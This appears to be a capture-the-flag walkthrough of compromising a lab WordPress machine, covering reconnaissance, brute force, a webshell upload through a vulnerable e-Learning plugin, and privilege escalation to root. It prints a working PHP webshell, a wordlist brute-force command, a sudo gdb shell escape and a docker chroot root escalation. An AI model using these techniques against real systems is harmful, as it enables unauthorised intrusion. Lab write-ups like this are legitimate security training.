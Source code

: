 # Reconnaissance

We start the the recon process by using nmap
`nmap -sC -sV 192.168.0.25`

![nmap scan](imgs/nmap.PNG)

The machine contain common 2 port that is http and ssh port. First let's view the http port in the web browser.

![web view](imgs/browser.PNG)

Basic things to do when viewing web page is to view the page source and find the technologies that the website use. Using Wappalyzer, we know that the web page use Wordpress version 5.3.2.

![wapplyzer](imgs/wappalyzer.PNG)

After knowing that the web page use the wordpress, we can use WPScan to scan the web page and look if we can found interesting information.
`wpscan --url 192.168.0.25 --enumere u`

By using WPScan user enumeration, it will scan the Wordpress detail that being use by the website and found possible user that contain in the website. Based on the scan, we found two user that can possibly exploit.

![wpuser](imgs/wpuser.PNG)

# Exploit

Next, let's look if there are any directory that usefull in this webpage.
`dirsearch --url 192.168.0.25 -i 200`

![dirsearch](imgs/dirsearch.PNG)

It's look like the webpage contain basic wordpress directory that can be access in the web browser. We can look through all the directory to check if there any info that can we collect. But first, let's run wordpress user bruteforce to get password for the user.
`wpscan --url 192.168.0.25 --passwords /wordlists/rockyou.txt`

![credFound](imgs/valid.PNG)

By using bruteforce, we found the password for user **reconauthor**. Now we can access /wp-login.php/ to login into the Wordpress dashboard by using the credential we found.

![wpdashboard](imgs/dashboard.PNG)

After successfully log in into the user Wordpress dashboard, let's enumerate the Wordpress and search for any vulnerability that can be use to enter the server system.

Viewing each post, we found one post that may be help for us. This post said to add payload and it come with e-Learning plugin to upload to zip file.

![e-learning](imgs/elearning.PNG)

By google a little bit about the e-Learning plugin, we found the exploit that can be use to make remote code execution into the server.

![google](imgs/google.PNG)

![exploitdb](imgs/exploitdb.PNG)

The exploit said that we can craft the webshell and zip it to upload into the e-Learning plugin. After the upload process, we can access our webshell by the given path.

So first, let's craft two file that is index.html and index.php containing the webshell. We can use simple PHP webshell in the index.php file. For the index.html file, just put any text inside it as it just to make the e-Learning plugin can identify the index.html file.

```php
<?php system($_GET['cmd']); ?>
```

Zip both of the index.html file and index.php file.
`zip exploit.zip index.html index.php`

Now is the time to upload the webshell into the Wordpress. First, add new post, next click plus button that will add block. Choose e-Learning plugin from the block and new e-Learning block will appear. Click upload then choose the zip file that we create earlier. Click upload and choose insert as iFrame then click insert. The zip file already uploaded to the system and can be access using the given path.

![insert](imgs/insert.PNG)

We can access the webshell by using the url
`http://192.168.0.25/wp-content/uploads/articulate_uploads/exploit/index.php?cmd=id`

The webshell can be use as remote code execution in the system.

![id](imgs/id.PNG)

After we get the webshell, we can establish reverse shell to connect to the system shell, we can use php-reverse-shell by pentest monkey to the the job for us. Setup the netcat listener, then upload the reverse shell file and we got the reverse shell from the server.

![reverseshell](imgs/reverseshell.PNG)

Let's establish [**interactive shell**](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/) first.

# Privilege Escalation

We are now www-data user, let's check what user in this machine using /etc/passwd.

![passwd](imgs/passwd.PNG)

There are 3 users in the machine that is root, hacker and offensive hack. For the privilege escalation process, let's first try to check sudo access for www-data user by using `sudo -l` command.

![sudo](imgs/sudo.PNG)

Greate, so there are sudo permission that this user can use and it was **/usr/bin/gdb**. Let's check GTFObins if there any exploitation can be use using gdb.

![gtfobins](imgs/gtfobins.PNG)

So, we can get the escalate to offensivehack user by using the gdb. Run this command and we got offensivehack user shell.
`sudo -u offensivehack gdb -nx -ex '!sh' -ex quit`

![offensivehackuser](imgs/offensivehack.PNG)

After we got offensivehack user, we can continue our privilege escalation to get the root user. The first interesting things that we see from user id is this user can run docker command. So, let's try to do privilege escalation by exploiting docker. First, check what docker images this machine contain.

![dockerimages](imgs/dockercheck.PNG)

This machine contain ubuntu images. So we can find the exploitation command in the GTFObins to be use with the ubuntu images.
````
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
````

![gtfobinsdocker](imgs/gtfobinsdocker.PNG)

By running the command, we got the root user and complete this machine. :D

![rootuser](imgs/root.PNG)

***

# Tips4Todays

- WPScan is very usefull, you can use it everytime you found Wordpress website and try to enumerate the user.
- Check the user id, it may help to find the vulnerabilities to exploit during privesc.
- Go through the all wordpress posts, files or plugins to find information that may be usefull for exploitation.

Prepared by 4jai
31/1/2023



